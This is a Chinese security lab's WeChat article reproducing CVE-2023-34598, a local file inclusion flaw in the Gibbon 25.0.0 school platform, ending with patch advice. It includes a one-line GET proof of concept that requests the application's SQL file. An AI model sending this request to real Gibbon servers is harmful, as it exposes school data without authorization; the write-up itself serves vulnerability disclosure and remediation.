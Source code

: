 #  Gibbon文件包含漏洞(CVE-2023-34598)

弥天安全实验室  [ 弥天安全实验室 ](javascript:void\(0\);)

**弥天安全实验室** ![]()

微信号 gh_41292c8e5379

功能介绍 学海浩茫，予以风动，必降弥天之润！

____

___发表于_

收录于合集

  

  

网安引领时代，弥天点亮未来  

  
  

  

  



![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180026.png)  
 **0x00写在前面**  
  
**本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180026.png)  
 **0x01漏洞介绍**  
  

Gibbon是一个解决教育工作者每天遇到的实际问题的学校平台。

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180028.png)

Gibbon 25.0.0版本存在安全漏洞，该漏洞源于存在本地文件包含漏洞。攻击者可利用该漏洞在服务器响应中包含本地文件。

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180026.png)  
 **0x02影响版本**  
  

Gibbon 25.0.0版本存在安全漏洞

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180030.png)

  

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180026.png)  
 **0x03漏洞复现**  
  

1.访问漏洞环境

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180031.png)

2.对漏洞进行复现

 **  POC （GET）**

  * 

    
    
     /?q=./gibbon.sql

漏洞复现

         GET请求，响应存在漏洞

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180032.png)

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180033.png)

3.nuclei测试（漏洞存在）

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180035.png)

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180026.png)  
 **0x04修复建议**  
  

目前厂商已发布升级补丁以修复漏洞，补丁获取链接：

  * 

    
    
    https://gibbonedu.org/

  

弥天简介

学海浩茫，予以风动，必降弥天之润！弥天弥天安全实验室成立于2019年2月19日，主要研究安全防守溯源、威胁狩猎、漏洞复现、工具分享等不同领域。目前主要力量为民间白帽子，也是民间组织。主要以技术共享、交流等不断赋能自己，赋能安全圈，为网络安全发展贡献自己的微薄之力。

口号 网安引领时代，弥天点亮未来

  

  

  

  

  

  

  

  

  

  

  

  

  

  

  

  

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180037.png)

  

知识分享完了

喜欢别忘了关注我们哦~

  

学海浩茫，予以风动，必降弥天之润！

  

   弥  天

安全实验室  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180038.png)

  

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

